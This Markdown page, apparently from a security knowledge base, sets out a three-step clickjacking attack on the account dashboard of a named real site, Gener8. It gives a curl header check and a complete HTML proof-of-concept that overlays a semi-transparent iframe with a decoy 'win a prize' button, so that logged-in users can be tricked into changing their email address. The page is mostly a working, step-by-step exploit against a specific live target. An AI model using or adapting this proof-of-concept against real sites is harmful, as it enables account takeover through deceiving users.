

# Clickjacking on Gener8 Dashboard to Trick Users into Changing Email Addresses

Multi-stage attack chain demonstrating a complete clickjacking workflow on the Gener8 website, exploiting missing frame protections to embed sensitive pages like the dashboard in iframes and deceive users into performing actions such as changing their email address.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser (e.g., Chrome, Firefox) with developer tools
- Text editor for HTML creation

### Target Environment

- Web platform
- Access to public-facing Gener8 pages (e.g., https://gener8ads.com/dashboard/account)
- No authentication required for header checks

### Initial Access Requirements

- Public internet access
- No credentials needed; targets unauthenticated pages
- Attacker controls a domain or local file for hosting PoC

## Detailed Attack Procedures

### Step 1: Identify Vulnerable Pages
procedure: [[procedures/Identify-Clickjacking-Vulnerability-by-Checking-Frame-Headers]]

**Objective**: Scan target pages for missing X-FRAME-OPTIONS headers to confirm they can be framed from any origin.

**Instructions**: Use curl to check response headers on key pages like the dashboard. For example, execute the following to inspect headers:

```bash
curl -I https://gener8ads.com/dashboard/account | grep -i x-frame-options
```

If no output appears, the page lacks the header and is vulnerable to framing.

**Expected Output**: No matching header line, indicating allow-from-any-origin framing.

**Success Indicators**:
- Absence of X-FRAME-OPTIONS in response headers
- Confirmation via browser dev tools that the page loads without frame restrictions

### Step 2: Create Proof-of-Concept
procedure: [[procedures/Create-Clickjacking-Proof-of-Concept-HTML-Page]]

**Objective**: Build an HTML page that embeds the vulnerable target in an iframe, using sandbox attributes to enable interaction while overlaying deceptive elements.

**Instructions**: Create an HTML file named 'hack.html' with the following content, embedding the target dashboard in a 500x500 pixel iframe:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Clickjacking PoC</title>
    <style>
        iframe { position: absolute; top: 0; left: 0; opacity: 0.5; width: 500px; height: 500px; }
        .overlay { position: absolute; top: 100px; left: 200px; z-index: 1; }
    </style>
</head>
<body>
    <h1>Click here to win a prize!</h1>
    <button class="overlay">Click Me!</button>
    <iframe sandbox="allow-top-navigation allow-scripts allow-same-origin" src="https://gener8ads.com/dashboard/account"></iframe>
</body>
</html>
```

Save and host this file locally or on an attacker-controlled site.

**Expected Output**: An HTML page that loads the target site invisibly or semi-transparently in the iframe.

**Success Indicators**:
- Iframe successfully embeds the target without errors
- Overlay button aligns with sensitive elements like the email change form

### Step 3: Verify Exploitation
procedure: [[procedures/Verify-Clickjacking-Exploitation-with-PoC]]

**Objective**: Load the PoC in a browser to demonstrate that clicks on the overlay can trigger actions in the framed dashboard, such as email changes.

**Instructions**: Open 'hack.html' in a web browser and interact with the overlay. Observe how clicks propagate to the iframe, potentially submitting forms like email updates if a logged-in user is tricked into visiting.

**Expected Output**: The framed dashboard responds to overlaid clicks, e.g., navigating or submitting forms invisibly.

**Success Indicators**:
- Target page loads in iframe without blocking
- Simulated clicks on overlay trigger intended actions in the frame (e.g., form submission)
- No CSP or frame-ancestor restrictions prevent embedding

## Attack Chain Summary

### Key Achievements

1. Confirmed missing X-FRAME-OPTIONS on Gener8 dashboard pages
2. Developed a functional PoC iframe for invisible framing
3. Demonstrated potential for user deception leading to account actions like email changes

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
